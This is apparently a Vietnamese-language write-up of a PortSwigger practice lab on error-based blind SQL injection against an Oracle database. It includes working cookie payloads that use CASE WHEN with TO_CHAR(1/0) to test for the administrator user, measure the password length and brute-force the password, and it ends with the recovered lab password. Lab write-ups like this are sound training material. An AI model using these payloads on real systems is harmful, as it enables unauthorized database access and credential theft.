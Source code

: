 # 🔍 Error-Based SQL Injection – PortSwigger Lab Writeup

Hello mọi người!Chào mừng đến với writeup đầu tiên của mình về khai thác SQL Injection để tìm mật khẩu của một tài khoản.Bài lab này được thực hiện trên nền tảng PortSwigger Web Security Academy.

> ⚠️ Nếu bạn không có nền tảng về bảo mật, có thể sẽ hơi khó hiểu. Nhưng bạn có thể coi đây là các bước "hack mật khẩu" trong môi trường mô phỏng.Lưu ý: Đây chỉ là lab để luyện tập, trong thực tế hiện nay các web hiện đại đã bảo mật tốt hơn nhiều

## Condition error based SQLi

### 1. Vấn đề của Blind SQLi

Phản hồi của giao diện không thay đổi dù truy vấn SQL có trả về giágiá hay không. Ứng dụng không hiện thị dữ liệu truy vấn
`OR 1=1 OR 1==2` thì giao diện trả về giông nhau nen không dùng được

### 2. Tạo lỗi có điều kiện ( Conditional Error )

Cố tình gây lỗi trong câu truy vấn SQL nhưng trong DK bạn chèn vào là đúng

Khi lỗi xảy ra thì giao diện có thể hiện thị lỗi

`SELECT * FROM users WHERE username = '$input'`

`' AND (SELECT 1/0 FROM dual WHERE 'a'='a') -- `

### 3. Các kiến thức sử dụngdụng

```sql
CASE
    WHEN điều_kiện_1 THEN giá_trị_1
    WHEN điều_kiện_2 THEN giá_trị_2
    ...
    ELSE giá_trị_mặc_định
END
```

```sql
CASE biểu_thức
    WHEN giá_trị_1 THEN kết_quả_1
    WHEN giá_trị_2 THEN kết_quả_2
    ...
    ELSE kết_quả_mặc_định
END
```

Note: các nhánh phải cùng kiểu dữ liệu.

Ví dụ:

```sql
SELECT
  CASE department_id
    WHEN 10 THEN 'HR'
    WHEN 20 THEN 'IT'
    ELSE 'Other'
  END AS department_name
FROM employees;
```

Khi điều kiện where đúng mới có dòng trả về nen mới thực thi select.
Ngược lại sẽ trả về 0 dòng nên không thực thi select.

### 4. Giải lab

Chúng ta sẽ khai thác lỗi ở TrackingID
TrackingId thường là một giá trị cookie được server dùng để:
Ghi lại hoạt động của người dùng (tracking).
Liên kết với session hoặc log để phân tích hành vi.
Tùy biến giao diện hoặc nội dung cho người dùng.

Chúng ta sẽ dùng burpsuite để khai thác lỗ hông này

Let's go!!!

- Bước 1. Thử trackingID có bị SQLi không
  ![alt text](image.png)
  ![alt text](image-1.png)

Chèn `trackingID = abc'` thì bị lỗi còn abc'' thì không bởi vì nó sẽ hiểu là
trackingID chuỗi thực tế là abc' ( vì '' là cách escape dấu ' )
-> Có SQLi

- Bước 2. thử `abc'||( select '' from dual)|| '` . Nhớ đặt select trong dấu () nhé, nếu không nó sẽ không hiểu là nối chuỗi đâu!
  trong oracle '' = NULL trong mysql
  ![alt text](image-2.png)

-> Ta có thể biết hệ thống dung oracle( dual la bảng ảo trong oracle)
và server không filter, có thể chạy lệnh sql hợp lệ

- Bước 3. Thử truy vấn 1 bảng không có thật để chứng minh câu sql có được thực thi thực sự trên dữ liệu
  backend hay không.

* FROM dual: giống như bạn bắn tín hiệu, thấy "server có nghe".
* FROM not_a_real_table: giống như bạn hỏi một câu khó, server nói "không có cái đó!" → server thật sự đang hiểu và trả lời SQL,
  Để làm chắc chắn hơn có thẻ thực thi Sql vì đây là blind SQLi
  ![alt text](image-3.png)

- Bước 4. Test điều kiện đúng/sai bằng lõi chia cho 00

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-4.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from dual) ||'`
![alt text](image-5.png)

- Bước 5. Kiểm tra sử tồn tại của administrator trong bảng users (Đề bài cho )

`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=22) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-6.png)
`Cookie: TrackingId=WMIqZXutPPFpM9id'||(select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE ''END from users where username = 'administrator') ||'`
![alt text](image-7.png)

- Bước 6. Tính độ dài của password

![alt text](image-8.png)
![alt text](image-9.png)

Password có độ dài bằng 20 kí tự .

- Bước 7. Brute force password.

Lab cho pw chỉ có kí từ a-z , 0-9 ( simple list).
Đừng hỏi tại sao lại chỉ dùng list này để dò mật khẩu.

Bước này hãy dùng Intruder để brute nhé. Sau pro hơn minh sẽ dùng python(Hãy đợi writeup tiếp theo).
Dùng Intruder như nào thì tự tìm hiểu nhé!

- Thành công lấy mật khẩukhẩu
![alt text](image-11.png)

password ="sbeu0dvy8fgrd2of14mw"
![alt text](image-12.png)
![alt text](image-13.png)

**Đăng nhập thành công!**
